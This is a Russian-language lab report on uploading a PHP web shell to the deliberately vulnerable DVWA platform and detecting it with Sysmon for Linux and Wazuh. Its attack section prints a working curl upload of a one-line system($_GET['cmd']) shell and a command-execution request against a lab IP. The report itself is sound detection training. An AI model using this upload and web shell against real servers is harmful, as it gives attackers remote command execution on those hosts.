




# Отчёт по симуляции веб-атак: A01:2021 — Broken Access Control

В данной практической работе исследуется эксплуатация уязвимости небезопасной загрузки файлов на примере платформы DVWA и методология её поведенческого детектирования на уровне операционной системы с использованием Sysmon для Linux и SIEM Wazuh.

## 2. Сценарий атаки: Загрузка и активация веб-шелла

Атака проводилась в два этапа:
1. **Доставка нагрузки:** Отправка вредоносного PHP-скрипта через POST-запрос напрямую в форму загрузки файлов. Так как Windows Defender блокирует файл на хостовой машине, доставка выполнялась «вслепую» через сетевой поток `curl` из Kali Linux.
2. **Выполнение кода (RCE):** Прямое обращение к загруженному файлу с передачей системной команды через GET-параметр.

### Команда для загрузки веб-шелла:
```bash
curl -X POST \
  -H "Cookie: PHPSESSID=1f706ce61bfcff0c723d860e02e10778; security=low" \
  -F "uploaded=@-;filename=shell.php" \
  -F "Upload=Upload" \
  "http://192.168.1.74/vulnerabilities/upload/" <<< '<?php system(\$_GET["cmd"]); ?>'
```

### Команда для активации и проверки RCE:
```bash
curl -s "http://192.168.1.74/hackable/uploads/shell.php?cmd=id"
```
**Результат выполнения:**



## 3. Анализ логов сервера

Если проанализировать стандартный журнал веб-сервера Apache `/var/log/apache2/access.log`, мы увидим следующую запись:



**Вывод:** Логи веб-сервера фиксируют факт обращения к файлам и HTTP-статусы (200 OK), но они полностью скрывают контекст:
* Веб-сервер не знает, что сохраненный файл является исполняемым скриптом.
* Веб-сервер не логирует, какие именно системные команды выполнялись внутри ОС.

## 4. Расследование инцидента с помощью Sysmon и Wazuh

Обычный контроль за созданием файлов может пропустить загрузку (например, из-за особенностей того, как веб-сервер сохраняет файлы). Но настоящую картину нам показывает **анализ поведения системы** — мы просто связываем вместе логи веб-сервера и логи запуска программ на сервере `victim`.

### Этап А: Обнаружение веб-шелла (Логи Apache + Правила Wazuh)
Как только злоумышленник открывает загруженный файл в браузере, система Wazuh сразу замечает подозрительный адрес запроса и поднимает тревогу:
* **Какая это техника (MITRE ATT&CK):** `T1505.003` (Веб-шелл)
* **Какой адрес вызвал подозрение (data.url):** `/hackable/uploads/shell.php?cmd=id`



### Этап Б: Проверка запуска программ (Sysmon EventID 1)
В ту же самую секунду Sysmon на сервере `victim` замечает, что веб-сайт начал вести себя странно и запускать системные команды, чего в обычной жизни быть не должно:
* **Кто запустил:** веб-пользователь `www-data`
* **Какая это техника (MITRE ATT&CK):** `T1059.004` (Запуск командного интерпретатора/шелл)
* **Что конкретно произошло:** веб-сервер через командную оболочку `/usr/bin/dash` выполнил команду `/usr/bin/id`



*Вывод:* Если сложить эти два факта вместе, мы получаем железное доказательство взлома (RCE). Веб-сервер не просто открыл страничку, а реально выполнил команду хакера внутри системы.


## Заключение
Логика детектирования для SOC-системы в данном сценарии строится на мониторинге цепочки процессов (`Process Tree`). Независимо от того, каким образом веб-шелл был доставлен на диск, любая попытка взаимодействия с ним неизбежно приводит к аномальному поведению веб-сервера — запуску командных интерпретаторов `dash`/`bash` от имени пользователя `www-data`. Перехват системных вызовов через **Sysmon EventID 1** позволяет гарантированно обнаружить атаку на этапе выполнения (Execution), сформировать критический алерт и изолировать скомпрометированный узел.
